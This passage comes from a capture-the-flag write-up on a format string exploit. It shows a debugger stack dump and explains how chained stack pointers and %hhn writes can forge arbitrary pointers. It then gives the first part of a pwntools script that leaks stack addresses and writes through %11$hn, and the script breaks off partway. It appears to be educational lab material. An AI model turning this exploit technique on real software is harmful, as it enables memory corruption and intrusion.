 ```
      0x00007fffffffea88│+0x0008: 0x0000000000000000
      0x00007fffffffea90│+0x0010: 0x000055555556a2c0  →   push r15
      0x00007fffffffea98│+0x0018: 0x0000555555559850  →   xor ebp, ebp
      0x00007fffffffeaa0│+0x0020: 0x00007fffffffeb80  →  0x0000000000000001
      0x00007fffffffeaa8│+0x0028: 0x00007ffff77ddafc  →  <__libc_start_main+76> mov rdx, QWORD PTR [rip+0x3c9355]        # 0x7ffff7ba6e58
      0x00007fffffffeab0│+0x0030: 0x0000000000000065 ("e"?)
[1]   0x00007fffffffeab8│+0x0038: 0x00007fffffffeb88  →  0x00007fffffffedb5  →  0x00736c2f6e69622f ("/bin/ls"?)
```
We can see pointers like `[1]` which form a sort of chain of stack pointers. This may not seem that useful at first, but can actually be used to form arbitrary data in the stack. The general concept is like so
```
stack ptr 1 -> stack ptr 2 -> somewhere in the stack
```
We make use of the `%hhn` technique to overwrite the 1 byte of data pointed to by `stack ptr 1` which is the least significant byte of `stack ptr 2`, then `stack ptr 2` can be constantly changed to act as a sort of "cursor" that moves along the stack, allowing us to write to `stack ptr 2` byte-by-byte and form arbitrary data (like pointers!) in the stack. With this we can form an arbitrary pointer and start leaking data. I did some further optimisation and made use of DynELF to prepare the script to leak the binary. I had improved on [two](https://blog.idiot.sg/2018-09-04/tokyowesterns-ctf-2018-neighbour-c/) previous [implementations](https://github.com/ZetaTwo/pwny-racing-solutions/blob/master/challenges/challenge07-episode4/Lord_Idiot/exploit.py) of this technique to prepare the following script.

```python
from pwn import *

r = remote("fqybysahpvift1nqtwywevlr7n50zdzp.ctf.sg", 42000)
r.recvuntil("Implemented\n")

def f(s):
    sleep(0.1)
    r.sendline(s+"_END_")
    return r.recvuntil("_END_", drop=True)

# Stack reference
stack_leak = int(f("%84$p"), 16)-1-8*88
log.info("stack_leak: {:#x}".format(stack_leak))

def p2i(ptr):
    delta = ptr - stack_leak
    return delta//8

_cursor = int(f("%39$p"), 16)
def cursor(ptr):
    global _cursor
    delta = _cursor ^ ptr
    if delta > 0xffff:
        log.error("Bad ASLR")
        exit()
    if delta > 0xff:
        payload = "%{}c".format(ptr & 0xffff)
        payload+= "%11$hn"
    else:
        payload = "%{}c".format(ptr & 0xff)
        payload+= "%11$hhn"
    f(payload)
    _cursor = ptr

_cursor2 = 0
def cursor2(ptr):
    global _cursor2
```